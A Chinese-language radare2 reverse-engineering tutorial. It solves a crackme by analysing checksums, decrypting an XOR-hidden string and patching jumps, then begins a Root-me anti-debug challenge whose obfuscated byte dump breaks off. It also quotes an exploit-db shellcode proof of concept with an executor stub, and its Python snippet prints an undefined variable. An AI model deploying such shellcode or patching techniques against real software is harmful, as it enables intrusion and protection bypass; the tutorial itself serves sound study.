下面查看一下main函数、字符串、sections、symbol、内存地址分布等信息：

```sh
# rabin2 -MRsSz crackme.03
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
[Sections]
idx=00 vaddr=0x00010000 paddr=0x00000000 sz=65568 vsz=65568 perm=m-r-- name=LOAD0
idx=01 vaddr=0x00010000 paddr=0x00000000 sz=52 vsz=52 perm=m-rw- name=ehdr

2 sections
[Symbols]

0 symbols
[Relocations]

0 relocations
```

可见此程序 no symbols, no strings, no sections ，应该是一个手写代码，或特意隐藏信息的小程序。

### 动态分析

```S
# r2 ./crackme.03
[0x00010020]> aa
[Cannot find function 'entry0' at 0x00010020 entry0 (aa)
[0x00010020]> s entry0
[0x00010020]> pdf
p: Cannot find function at 0x00010020
[0x00010020]> s 0x00010020
[0x00010020]> pd
        |   ;-- entry0:
        |   0x00010020      b32a           mov bl, 0x2a                ; '*' ; 42
        |   0x00010022      31c0           xor eax, eax
        |   0x00010024      40             inc eax
       ,==< 0x00010025      eb12           jmp 0x10039
       ||   0x00010027      003400         add byte [eax + eax], dh
       ||   0x0001002a      2000           and byte [eax], al
       ||   0x0001002c      0100           add dword [eax], eax
       ||   0x0001002e      0c14           or al, 0x14
       ||   0x00010030      90             nop
       |`=< 0x00010031      7c97           jl 0xffca
       |    0x00010033      ad             lodsd eax, dword [esi]
       |    ;-- section_end.ehdr:
       |    0x00010034      b6b6           mov dh, 0xb6                ; 182
       |    0x00010036      c6c0bf         mov al, 0xbf                ; 191
       `--> 0x00010039      29c9           sub ecx, ecx
            0x0001003b      b900000100     mov ecx, 0x10000            ; section.ehdr
            0x00010040      31d2           xor edx, edx
            0x00010042      31db           xor ebx, ebx
        .-> 0x00010044      8a19           mov bl, byte [ecx]
        |   0x00010046      01da           add edx, ebx
        |   0x00010048      41             inc ecx
        |   0x00010049      81f92e000100   cmp ecx, 0x1002e
        `=< 0x0001004f      75f3           jne 0x10044
            0x00010051      c1e202         shl edx, 2
            0x00010054      663b152e0001.  cmp dx, word [0x1002e]      ; [0x1002e:2]=0x140c
        ,=< 0x0001005b      7529           jne 0x10086
        |   0x0001005d      31ed           xor ebp, ebp
        |   0x0001005f      89d7           mov edi, edx
        |   0x00010061      45             inc ebp
        |   0x00010062      b810800000     mov eax, 0x8010
        |   0x00010067      45             inc ebp
        |   0x00010068      f7e5           mul ebp
        |   0x0001006a      96             xchg eax, esi
        |   0x0001006b      89f0           mov eax, esi
        |   0x0001006d      662b05140001.  sub ax, word [0x10014]
       ,==< 0x00010074      7510           jne 0x10086
       ||   0x00010076      29fe           sub esi, edi
       ||   0x00010078      6681f614ec     xor si, 0xec14
      ,===< 0x0001007d      7507           jne 0x10086
     ,====< 0x0001007f      eb01           jmp 0x10082
     ||||   0x00010081      d431           aam 0x31
      |||   0x00010083      c0755e29       sal byte [ebp + 0x5e], 0x29
            0x00010087      d2743854       sal byte [eax + edi + 0x54], cl
        ,=< 0x0001008b      7279           jb 0x10106
        |   0x0001008d      20746f20       and byte [edi + ebp*2 + 0x20], dh
        |   0x00010091      66696e642074   imul bp, word [esi + 0x64], 0x7420
        |   0x00010097      6865207374     push 0x74732065
       ,==< 0x0001009c      7269           jb 0x10107
       ||   0x0001009e      6e             outsb dx, byte [esi]
       ||   0x0001009f      67206f66       and byte [bx + 0x66], ch
       ||   0x000100a3      207375         and byte [ebx + 0x75], dh
       ||   0x000100a6      636365         arpl word [ebx + 0x65], sp
      ,===< 0x000100a9      7373           jae 0x1011e
      |||   0x000100ab      20616e         and byte [ecx + 0x6e], ah
      |||   0x000100ae      64206d61       and byte fs:[ebp + 0x61], ch
      |||   0x000100b2      6b65206d       imul esp, dword [ebp + 0x20], 0x6d
      |||   0x000100b6      65207072       and byte gs:[eax + 0x72], dh
      |||   0x000100ba      696e74206974.  imul ebp, dword [esi + 0x74], 0x2e746920
      |||   0x000100c1      0ab804000000   or bh, byte [eax + 4]
      |||   0x000100c7      bb01000000     mov ebx, 1
      |||   0x000100cc      b98a000100     mov ecx, 0x1008a
      |||   0x000100d1      ba38000000     mov edx, 0x38               ; '8' ; 56
      |||   0x000100d6      cd80           int 0x80
      |||   0x000100d8      b801000000     mov eax, 1
      |||   0x000100dd      bb00000000     mov ebx, 0
```

试读几行，发现在 0x00010025 处 `JMP 0x10039`，说明 0x00010025-0x00010039 没有使用，可以隐藏他们。

```S
[0x00010020]> s 0x00010027
[0x00010027]> Ch 0x00010039 - 0x00010027
[0x00010027]> s-
[0x00010020]> pdf
p: Cannot find function at 0x00010020
[0x00010020]> s 0x00010020
[0x00010020]> pd
            ;-- entry0:
            0x00010020      b32a           mov bl, 0x2a                ; '*' ; 42
            0x00010022      31c0           xor eax, eax
            0x00010024      40             inc eax
        ,=< 0x00010025      eb12           jmp 0x10039
        |   0x00010027 (18 bytes hidden)
        `-> 0x00010039      29c9           sub ecx, ecx
            0x0001003b      b900000100     mov ecx, 0x10000            ; section.ehdr
            0x00010040      31d2           xor edx, edx
            0x00010042      31db           xor ebx, ebx
        .-> 0x00010044      8a19           mov bl, byte [ecx]
        |   0x00010046      01da           add edx, ebx
        |   0x00010048      41             inc ecx
        |   0x00010049      81f92e000100   cmp ecx, 0x1002e
        `=< 0x0001004f      75f3           jne 0x10044
            0x00010051      c1e202         shl edx, 2
            0x00010054      663b152e0001.  cmp dx, word [0x1002e]      ; [0x1002e:2]=0x140c
        ,=< 0x0001005b      7529           jne 0x10086
        |   0x0001005d      31ed           xor ebp, ebp
        |   0x0001005f      89d7           mov edi, edx
        |   0x00010061      45             inc ebp
        |   0x00010062      b810800000     mov eax, 0x8010
        |   0x00010067      45             inc ebp
        |   0x00010068      f7e5           mul ebp
        |   0x0001006a      96             xchg eax, esi
        |   0x0001006b      89f0           mov eax, esi
        |   0x0001006d      662b05140001.  sub ax, word [0x10014]
       ,==< 0x00010074      7510           jne 0x10086
       ||   0x00010076      29fe           sub esi, edi
       ||   0x00010078      6681f614ec     xor si, 0xec14
      ,===< 0x0001007d      7507           jne 0x10086
     ,====< 0x0001007f      eb01           jmp 0x10082
     ||||   0x00010081      d431           aam 0x31
      |||   0x00010083      c0755e29       sal byte [ebp + 0x5e], 0x29
            0x00010087      d2743854       sal byte [eax + edi + 0x54], cl
        ,=< 0x0001008b      7279           jb 0x10106
        |   0x0001008d      20746f20       and byte [edi + ebp*2 + 0x20], dh
        |   0x00010091      66696e642074   imul bp, word [esi + 0x64], 0x7420
        |   0x00010097      6865207374     push 0x74732065
       ,==< 0x0001009c      7269           jb 0x10107
       ||   0x0001009e      6e             outsb dx, byte [esi]
       ||   0x0001009f      67206f66       and byte [bx + 0x66], ch
       ||   0x000100a3      207375         and byte [ebx + 0x75], dh
       ||   0x000100a6      636365         arpl word [ebx + 0x65], sp
      ,===< 0x000100a9      7373           jae 0x1011e
      |||   0x000100ab      20616e         and byte [ecx + 0x6e], ah
      |||   0x000100ae      64206d61       and byte fs:[ebp + 0x61], ch
      |||   0x000100b2      6b65206d       imul esp, dword [ebp + 0x20], 0x6d
      |||   0x000100b6      65207072       and byte gs:[eax + 0x72], dh
      |||   0x000100ba      696e74206974.  imul ebp, dword [esi + 0x74], 0x2e746920
      |||   0x000100c1      0ab804000000   or bh, byte [eax + 4]
      |||   0x000100c7      bb01000000     mov ebx, 1
      |||   0x000100cc      b98a000100     mov ecx, 0x1008a
      |||   0x000100d1      ba38000000     mov edx, 0x38               ; '8' ; 56
      |||   0x000100d6      cd80           int 0x80
      |||   0x000100d8      b801000000     mov eax, 1
      |||   0x000100dd      bb00000000     mov ebx, 0
      |||   0x000100e2      cd80           int 0x80
      |||   0x000100e4      31d2           xor edx, edx
      |||   0x000100e6      6839000100     push 0x10039
      |||   0x000100eb      66832c240b     sub word [esp], 0xb
      |||   0x000100f0      5e             pop esi
      |||   0x000100f1      8d7601         lea esi, dword [esi + 1]    ; 0x1
      |||   0x000100f4      29c9           sub ecx, ecx
      |||   0x000100f6      75ec           jne 0x100e4
```

### first checksum
```S
    0x00010039      29c9           sub ecx, ecx
    0x0001003b      b900000100     mov ecx, 0x10000            ; section.ehdr
    0x00010040      31d2           xor edx, edx
    0x00010042      31db           xor ebx, ebx
.-> 0x00010044      8a19           mov bl, byte [ecx]
|   0x00010046      01da           add edx, ebx
|   0x00010048      41             inc ecx
|   0x00010049      81f92e000100   cmp ecx, 0x1002e
`=< 0x0001004f      75f3           jne 0x10044
```

我们看到 0x1003b 处将 segment.load0 即 0x10000 置入 ecx，之后执行一个循环，从该二进制第一个字节开始，依次取出一个字节（例如第一次取 0x7f 第二次取 0x45，第三次 0x4c ，第四次 0x46，这也是每个elf文件头的魔术字 ".ELF").

每次取出的字节，与之前取出的字节累加起来。此循环持续 0x2e次。


使用 `readelf -h ./crack.03.32` 可以看到文件头部：

```sh
readelf -h ./crackme.03.32                                              1 ⨯
ELF 头：
  Magic：  7f 45 4c 46 01 00 00 00 00 00 00 00 00 00 01 00 
  类别:                              ELF32
  数据:                              无
  Version:                           0
  OS/ABI:                            UNIX - System V
  ABI 版本:                          0
  类型:                              EXEC (可执行文件)
  系统架构:                          Intel 80386
  版本:                              0x10020
  入口点地址：              0x10020
  程序头起点：              4 (bytes into file)
  Start of section headers:          3224447667 (bytes into file)
  标志：             0x12eb40
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           5132 (bytes)
  Number of section headers:         31888
  Section header string table index: 44439 <corrupt: out of range>
```


这应该是在求头部0x00～0x2e的校验和，然后通过一定的检查，来防止对头部的改动。可以看到有3处跳转到 0x10086 处。

然后在 0x10086处：
```
[0x00010020]> pd @0x10086
            0x00010086      29d2           sub edx, edx
        ,=< 0x00010088      7438           je 0x100c2
```

这是典型的防止自动分析器的手法。edx-edx必然等于0，所以一定会跳转到 0x100c2 处。

如果觉得r2画出的线条有干扰，可以关闭分析线条：`e asm.lines = false`.

### 0x100c2

```S
[0x00010020]> pd @0x100c2
|   0x000100c2      b804000000     mov eax, 4
|   0x000100c7      bb01000000     mov ebx, 1
|   0x000100cc      b98a000100     mov ecx, 0x1008a
|   0x000100d1      ba38000000     mov edx, 0x38               ; '8' ; 56
|   0x000100d6      cd80           int 0x80
.--> 0x000100d8      b801000000     mov eax, 1
||   0x000100dd      bb00000000     mov ebx, 0
||   0x000100e2      cd80           int 0x80
```

可以看到使用了中断，我们需要查一下 [系统调用参考（syscall reference）](http://syscalls.kernelgrok.com/) 或者参考 [filippo的linux syscall reference](https://filippo.io/linux-syscall-table/)。你也可以检查本地的 syscall.h 或  unistd.h。

在有些系统中可以在/usr/include/x86_64-linux-gnu/asm/下面找到 unistd_64.h等文件。 

第一个syscall执行了write操作（写到标准输出设备，即prinft）；

第二个syscall执行了exit操作；

说明：
- 系统调用号被存在 eax中
- 参数一存放在ebx中，例如上面的 1 表示标准输出
- ecx 中存放了输出buffer，例如上面的 0x1008a就是buffer的指针
- edx 中存放了输出buffer 的长度，例如上面的 0x38


这里我们看到一个立即数：0x1008a 被放入 ecx 那么它是一个地址，指向什么呢？

```
[0x00010020]> ps 0x38 @0x1008a
Try to find the string of success and make me print it.

[0x00010020]
```

可以给 0x1008a 处增加一条注释： 
```
[0x00010020]> Cca 0x1008a BADBOY
```

### 逆向 checksum 过程

由于这段程序没有任何输入/输出过程，所以我们很容易进行逆向分析 0x1003b 处开始的checksum过程：

```s
[0x00010020]> pd @0x1003b
            0x0001003b      b900000100     mov ecx, 0x10000            ; section.ehdr
            0x00010040      31d2           xor edx, edx
            0x00010042      31db           xor ebx, ebx
        .-> 0x00010044      8a19           mov bl, byte [ecx]
        |   0x00010046      01da           add edx, ebx
        |   0x00010048      41             inc ecx
        |   0x00010049      81f92e000100   cmp ecx, 0x1002e
        `=< 0x0001004f      75f3           jne 0x10044
            0x00010051      c1e202         shl edx, 2
            0x00010054      663b152e0001.  cmp dx, word [0x1002e]      ; [0x1002e:2]=0x140c
        ,=< 0x0001005b      7529           jne 0x10086
```

上面的代码执行的基本过程如下：
- 1.ecx = 0x10000； 0x10000为此二进制文件的第一个字节的 offset
- 2.edx = 0； ebx = 0；
- 3.bl = * ecx ；即获得ecx指向的第一个字节内容，ebx 作为中间临时变量，用于暂存每次获得的一字节内容
- 4.edx = edx + ebx ；edx 将存放最终checksum 结果
- 5.ecx ++ ；ecx作为指向0x10000区域的指针
- goto 1. if ecx != 0x1002e  ; 注意 0x1002e-0x10000=0x2e
- edx = edx *2 ; 左移指令常用来做简单乘法，速度更快
- goto 0x10086 if edx != [ 0x1002e ]

看来 checksum过程是计算elf file header中0x2e个字节的求和，结果需要等于[ 0x1002e ] 中的大小，通常0x2e这个位置在 efl file header 中存放的是 e_shentsize，即 elf file 的 section header entry size，即单一section 头的大小。

```
[0x00010020]> pfw @0x1002e
0x0001002e = 0x140c
```

可知此值为 0x140c。如果头部没有改动过，意味着完整性不变。那么将不跳转到0x10086，而是继续执行后面代码：

```s
,=< 0x0001005b      7529           jne 0x10086
|   0x0001005d      31ed           xor ebp, ebp
|   0x0001005f      89d7           mov edi, edx
|   0x00010061      45             inc ebp
|   0x00010062      b810800000     mov eax, 0x8010
|   0x00010067      45             inc ebp
|   0x00010068      f7e5           mul ebp
|   0x0001006a      96             xchg eax, esi
|   0x0001006b      89f0           mov eax, esi
|   0x0001006d      662b05140001.  sub ax, word [0x10014]
,==< 0x00010074      7510           jne 0x10086
||   0x00010076      29fe           sub esi, edi
||   0x00010078      6681f614ec     xor si, 0xec14
,===< 0x0001007d      7507           jne 0x10086
,====< 0x0001007f      eb01           jmp 0x10082
```

这一段代码也应该可以看懂:
- esi中存放了 0x8010*2-0x140c ；
- esi = esi xor 0xec14
- goto 0x10086 if si != 0
- else goto 0x10082

注意，r2有可能不能正确解析指令，例如如果手动查看，那么：
```s
[0x00010048]> pd
0x00010081      d431           aam 0x31
0x00010083      c0755e29       sal byte [ebp + 0x5e], 0x29
0x00010087      d2743854       sal byte [eax + edi + 0x54], cl
```
可以看到 0x10082并未被正确解析，那么手动看一下 0x10082 处

```
[0x00010020]> pd @0x10082
    0x00010082      31c0           xor eax, eax
,=< 0x00010084      755e           jne 0x100e4
|   0x00010086      29d2           sub edx, edx
```

这里 0x00010084 是永远不会被执行的。考虑到这个程序有古怪，所以先看一下 0x100e4 是一段什么指令？

```s
[0x00010320]> pd @0x100e4
0x000100e4      31d2           xor edx, edx
0x000100e6      6839000100     push 0x10039                ; '9'
0x000100eb      66832c240b     sub word [esp], 0xb         ; [0xb:2]=0xffff ; 11
0x000100f0      5e             pop esi
0x000100f1      8d7601         lea esi, [esi + 1]
0x000100f4      29c9           sub ecx, ecx
0x000100f6      75ec           jne 0x100e4
0x000100f8      46             inc esi                     ; esi = 0x10030
0x000100f9      eb01           jmp 0x100fc
0x000100fb      c3             ret
0x000100fc      8a16           mov dl, byte [esi]          ; get single char form esi = 0x10030 to str_end
0x000100fe      88140c         mov byte [esp + ecx], dl
0x00010101      41             inc ecx
0x00010102      83f909         cmp ecx, 9                  ; 9
0x00010105      75f1           jne 0x100f8
0x00010107      29d2           sub edx, edx
0x00010109      31c9           xor ecx, ecx
0x0001010b      41             inc ecx
0x0001010c      8a140c         mov dl, byte [esp + ecx]
0x0001010f      80ea09         sub dl, 9
0x00010112      80f2ac         xor dl, 0xac                ; 172
0x00010115      eb02           jmp 0x10119
0x00010117      e84132540c     call 0xc55335d
0x0001011c      ff88140c83f9   dec dword [eax - 0x67cf3ec]
0x00010122      0875e6         or byte [ebp - 0x1a], dh
0x00010125      41             inc ecx
0x00010126      c6040c0a       mov byte [esp + ecx], 0xa
0x0001012a      49             dec ecx
0x0001012b      87d1           xchg ecx, edx
0x0001012d      42             inc edx
0x0001012e      44             inc esp
0x0001012f      eb01           jmp 0x10132
0x00010131      e8b8040000     call 0x105ee
```

看其中运算是在对 0x10039 做一些运算：
- esi = 0x10039
- esi = esi - 0xb + 1 +1 = 0x10030
- 说明一下 `lea esi, dword [esi + 1]` 其实是 esi <= esi+1
- jmp 0x100fc，做了一个对esi指向内存按字节循环取数据操作，循环9次,每次取出后放入堆栈里。
- 之后，又做一个循环：
  - 依次取出从 0x10030 处的每个字节到 dl中，即 dl = [ esp + ecx ]
  - dl = (dl - 9) xor 0xac
  - jmp 0x10119 之后的语句 r2 又不能自动解析正确了。


```s
[0x00010048]> pd @ 0x10119
0x00010119      32540cff       xor dl, byte [esp + ecx - 1]
0x0001011d      88140c         mov byte [esp + ecx], dl
0x00010120      83f908         cmp ecx, 8                  ; 8
0x00010123      75e6           jne 0x1010b
0x00010125      41             inc ecx
0x00010126      c6040c0a       mov byte [esp + ecx], 0xa
0x0001012a      49             dec ecx
0x0001012b      87d1           xchg ecx, edx
0x0001012d      42             inc edx
0x0001012e      44             inc esp
0x0001012f      eb01           jmp 0x10132
```

看这段指令就是继续处理 dl中的数据：
- dl = dl xor [ esp + ecx -1 ] ; 类似字符串s中的 s[ i ] xor s[ i ]
- 处理结果放入堆栈，覆盖原值 ，即[ esp + ecx ] =dl

这一部分很像是加解密过程，现在回头看一下 0x10030处内容

```s
[0x00010048]> px @ 0x10030
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00010030  907c 97ad b6b6 c6c0 bf29 c9b9 0000 0100  .|.......)......
```

不是ascii码明文，那上面计算有可能是解密操作，操作对象是：90 7c 97 ad b6 b6 c6 c0 bf 29 c9 b9 这9个hex。

我们可以写python复现上面解密过程

```
>>> s = [ 0x90, 0x7C, 0x97, 0xAD, 0xB6, 0xB6, 0xC6, 0xC0, 0xBF ]
>>> for i in range(0,8):
...     s[i+1] = (s[i+1] - 9) ^ 0xac ^ s[i]
>>> print(''.join([chr(i) for i in array]))
Omedetou
```
这就是解密结果吧？！但是程序并没有分析完，继续。。。我们看到后面还有一句：jmp 0x10132，先看一下这里有什么？

```s
[0x00010320]> pd @0x10132
       ||   0x00010132      b804000000     mov eax, 4
       ||   0x00010137      bb01000000     mov ebx, 1
       ||   0x0001013c      89e1           mov ecx, esp
       ||   0x0001013e      60             pushal
       ||   0x0001013f      31c9           xor ecx, ecx
       ||   0x00010141      51             push ecx
       ||   0x00010142      b900000100     mov ecx, 0x10000            ; section.ehdr
       ||   0x00010147      5a             pop edx
       ||   0x00010148      89d3           mov ebx, edx
      .---> 0x0001014a      8a19           mov bl, byte [ecx]
      |||   0x0001014c      01da           add edx, ebx
      |||   0x0001014e      41             inc ecx
      |||   0x0001014f      81f972010100   cmp ecx, 0x10172
      `===< 0x00010155      75f3           jne 0x1014a
      ,===< 0x00010157      eb01           jmp 0x1015a
      |||   0x00010159      cd66           int 0x66                    ; 'f'
       ||   0x0001015b      3b1572010100   cmp edx, dword [0x10172]    ; [0x10172:4]=0xffff7f6d
       |`=< 0x00010161      0f851fffffff   jne 0x10086
       |    0x00010167      61             popal
       |,=< 0x00010168      eb01           jmp 0x1016b
       ||   0x0001016a      c9             leave
       |`-> 0x0001016b      cd80           int 0x80
       `==< 0x0001016d      e966ffffff     jmp 0x100d8
            0x00010172      6d             insd dword es:[edi], dx
        ,=< 0x00010173      7fff           jg 0x10174
[0x00010320]> pd @0x100d8
       .--> 0x000100d8      b801000000     mov eax, 1
       ||   0x000100dd      bb00000000     mov ebx, 0
       ||   0x000100e2      cd80           int 0x80
[0x00010320]> pfw @0x10172
0x00010172 = 0x7f6d
[0x00010320]> ?d pushad
push all general-purpose registers
```

这里又是一个syscall ：
- eax =0x4 ;write
- ebx =0x1 ; standard output
- ecx =先前解密后字符串 +1
- edx = 0x8

### patch it 
最后，为了让程序不再搞怪，我们来尝试patchit。

第一处：修改无法调整到 0x100e4
```s

[0x00010320]> s 0x10084
[0x00010084]> pd 1
        ,=< 0x00010084      755e           jne 0x100e4
[0x00010084]> oo+
File ./crackme.03 reopened in read-write mode
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
[0x00010084]> wx 74
[0x00010084]> pd 1
        ,=< 0x00010084      745e           je 0x100e4
[0x00010084]> oo
File ./crackme.03 reopened in read-only mode
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
```

第二处：
```s
[0x00010020]> s 0x10161
[0x00010161]> pd 1
        `=< 0x00010161      0f851fffffff   jne 0x10086
[0x00010161]> oo+
File ./crackme.03 reopened in read-write mode
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
[0x00010161]> wa je 0x10086
Written 6 bytes (je 0x10086) = wx 0f841fffffff
[0x00010161]> pd 1
        `=< 0x00010161      0f841fffffff   je 0x10086
[0x00010161]> oo
File ./crackme.03 reopened in read-only mode
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
```
最后执行：

```
# ./crackme.03
Omedetou
```

## 使用 radare2 分析 shellcode

假设我们有这样一个 [shellcode poc](https://www.exploit-db.com/exploits/39869)

```c
char shellcode[]="\xeb\x1d\x5e\x48\x31\xc9\xb1\x31\x99\xb2\x90\x48\x31\xc0\x8a"
                 "\x06\x30\xd0\x48\xff\xcc\x88\x04\x24\x48\xff\xc6\xe2\xee\xff"
                 "\xd4\xe8\xde\xff\xff\xff\x95\x9f\xab\x50\x13\xd8\x76\x19\xd8"
                 "\xc7\xc6\xc2\x76\x19\xd8\xf9\xbd\xb4\x94\x57\xf6\xc0\xc0\x77"
                 "\x19\xd8\xf8\xe3\xbf\xfe\x94\xb4\xd4\x57\xf9\xf2\xbf\xbf\xb4"
                 "\x94\x57\xc0\xc0\x42\xa1\xd8\x50\xa1";
int main(int i,char *a[])
{
    (* (int(*)()) shellcode)();
}
```

## ELF x86 - Anti-debug

来源：[Root me elf x86 anti-debug](https://www.root-me.org/en/Challenges/Cracking/ELF-x86-Anti-debug?q=%2Fen%2FChallenges%2FCracking%2FELF-Anti-debug&lang=en)


下载challenge 文件，名为`ch13`,执行 `r2 -Ad ch13`

先看下基本信息、符号表、字符串。之后看代码：
```s
[0x08048060]> pdf
            ;-- section..text:
            ;-- eip:
┌ 22: entry0 ();
│       ┌─< 0x08048060      eb01           jmp 0x8048063               ; [01] -r-x section size 648 named .text
..
│       │   ; CODE XREF from entry0 @ 0x8048060
│       └─> 0x08048063      b830000000     mov eax, 0x30               ; '0' ; 48
│           0x08048068      bb05000000     mov ebx, 5
│           0x0804806d      b9e2800408     mov ecx, 0x80480e2
│           0x08048072      cd80           int 0x80
│           ; CODE XREF from entry0 @ +0x46
│       ┌─< 0x08048074      eb01           jmp 0x8048077
..
│       │   ; CODE XREF from entry0 @ 0x8048074
└       └─> 0x08048077      cc             int3
[0x08048060]> 

```
看起来像手写代码。syscall 调用了 32-bit系统的0x30号linux syscall。

查看一下本机syscall 定义文件： /usr/include/x86_64-linux-gnu/asm/unistd_32.h ，可知0x30 为`#define __NR_signal 48`:
- ebx = 5 ; ebx存放整数信号值，此处表示 signal 为 5，即 SIGABRT 。
- ecx = __sighandler_t handler；表示信号的handler。
- 信号产生后，就 jmp 0x8048077

如果我们按上面的分析依次执行指令，会停止 0x80480e2 处。

```s
[0x08048060]> pd @ 0x80480e2
; DATA XREF from entry0 @ 0x804806d
0x080480e2      b804810408     mov eax, 0x8048104 ；eax = 0x8048104
0x080480e7      eb18           jmp 0x8048101

[0x08048060]> pd @ 0x8048101
; CODE XREF from entry0 @ +0x87
0x08048101      ebe6           jmp 0x80480e9

[0x08048060]> pd @ 0x80480e9
0x080480e9      3de8820408     cmp eax, 0x80482e8 ; 
0x080480ee      7413           je 0x8048103 
0x080480f0      eb01           jmp 0x80480f3

[0x08048060]> pd @ 0x80480f3
; CODE XREF from entry0 @ +0x90
0x080480f3      8130c18f0408   xor dword [eax], 0x8048fc1              ; [0x8048fc1:4]=0
0x080480f9      83c004         add eax, 4
0x080480fc      eb01           jmp 0x80480ff
0x080480fe      ebeb           jmp 0x80480eb

[0x08048060]> pd @ 0x80480ff
; CODE XREF from entry0 @ +0x9c
0x080480ff      ebe8           jmp 0x80480e9  ； 

[0x08048060]> pd @ 0x8048103
; CODE XREF from entry0 @ +0x8e
0x08048103      c3             ret
```

到这里可以了解到，这是一个手动的循环：

```
eax = 0x8048104
while ( eax != 0x80482e8) ：
  [ eax ] =  [ eax ] xor 0x8048fc1
  eax += 4

return
```
这看起来是一段加密指令的解密过程。

我们把0x8048104～0x80482e8的代码提取出来：

```py
obfuscated = [0x7A, 0x8E, 0x04, 0x08, 0xC1, 0x36, 0x39, 0x8A, 0xC5, 0x87, 0xBE, 0x1C, 0xC1, 0x8F, 0x04, 0xE0, 0x74, 0x8F, 0x04, 0x08, 0x7A, 0x8F, 0x04, 0x08, 0xC1, 0x36, 0x55, 0x8A, 0xC5, 0x87, 0xBE, 0x88, 0xC1, 0x8F, 0x04, 0xE0, 0x68, 0x8F, 0x04, 0x08, 0x7A, 0xDE, 0x86, 0x0C, 0xC9, 0x8E, 0xC7, 0x43, 0x07, 0x8C, 0x04, 0xCB, 0x79, 0xDE, 0x86, 0x0C, 0xC9, 0x0F, 0x3C, 0x08, 0xB5, 0x89, 0x84, 0x38, 0x3D, 0xCF, 0xEF, 0xFD, 0x02, 0x37, 0x55, 0x8A, 0xC5, 0x87, 0xBF, 0xD9, 0x43, 0x8B, 0x0C, 0x82, 0xC9, 0xB5, 0x0F, 0x7D, 0xC8, 0x0F, 0xFD, 0x08, 0xB5, 0x92, 0x44, 0x4B, 0x2A, 0x7E, 0xBF, 0x09, 0xC1, 0x8F, 0x04, 0xB1, 0xC6, 0x0D, 0x00, 0x00, 0x7B, 0x99, 0x04, 0x08, 0xC1, 0x67, 0x53, 0x08, 0xC1, 0x8F, 0xEC, 0x6A, 0xC1, 0x8F, 0x04, 0xB3, 0xC0, 0x8F, 0x04, 0x08, 0x78, 0x6B, 0x85, 0x0C, 0xC9, 0x35, 0x27, 0x08, 0xC1, 0x8F, 0xEC, 0x36, 0xC1, 0x8F, 0x04, 0xE0, 0x88, 0x8F, 0x04, 0x08, 0xF0, 0x4F, 0xBF, 0x68, 0x41, 0x8B, 0x0C, 0x89, 0x3A, 0x6B, 0x86, 0x0C, 0xC9, 0xFB, 0x03, 0x3B, 0xC2, 0x0C, 0xC7, 0x0C, 0x2A, 0x7E, 0xBF, 0xEC, 0x43, 0x8B, 0x0C, 0x33, 0xC2, 0xFB, 0x1D, 0xB3, 0xC0, 0x8F, 0x04, 0x08, 0x78, 0x92, 0x86, 0x0C, 0xC9, 0x35, 0x24, 0x08, 0xC1, 0x8F, 0xEC, 0x0E, 0xC1, 0x8F, 0x04, 0xE0, 0xD0, 0x8F, 0x04, 0x08, 0x02, 0x37, 0x00, 0x08, 0xC1, 0x8F, 0xC9, 0x88, 0x02, 0x37, 0x07, 0x08, 0xC1, 0x8F, 0xC9, 0x88, 0x02, 0x37, 0x05, 0x08, 0xC1, 0x8F, 0xC9, 0x88, 0x86, 0xFD, 0x65, 0x7C, 0xBB, 0xA3, 0x24, 0x7C, 0xA9, 0xE6, 0x77, 0x28, 0xA8, 0xFC, 0x24, 0x7C, 0xA9, 0xEA, 0x24, 0x6F, 0xAE, 0xE0, 0x60, 0x28, 0xB1, 0xEE, 0x77, 0x7B, 0xB6, 0xE0, 0x76, 0x6C, 0xE1, 0xAE, 0x0E, 0x4A, 0xA0, 0xEB, 0x24, 0x78, 0xA0, 0xFC, 0x77, 0x7F, 0xAE, 0xFD, 0x60, 0x24, 0xE1, 0xFC, 0x6B, 0x7A, 0xB3, 0xF6, 0x24, 0x29, 0xCB, 0xDE, 0x51, 0x41, 0x95, 0xAF, 0x25, 0x28, 0x84, 0xF7, 0x61, 0x6B, 0xB4, 0xFB, 0x65, 0x6A, 0xAD, 0xEA, 0x24, 0x61, 0xB2, 0xAF, 0x69, 0x67, 0xA5, 0xE6, 0x62, 0x61, 0xA4, 0xEB, 0x24, 0x29, 0xCB, 0xCA, 0x6A, 0x7C, 0xA4, 0xFD, 0x24, 0x7C, 0xA9, 0xEA, 0x24, 0x78, 0xA0, 0xFC, 0x77, 0x7F, 0xAE, 0xFD, 0x60, 0x32, 0xE1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x8F, 0x04, 0x08, 0xC1, 0x2A, 0xCB, 0x95, 0x75, 0x52, 0x8C, 0xBC, 0x54, 0x20, 0x91, 0xA7, 0x49, 0x3B, 0xCB, 0x9F, 0x78, 0x0A, 0xD9, 0x08, 0xCB, 0xE0, 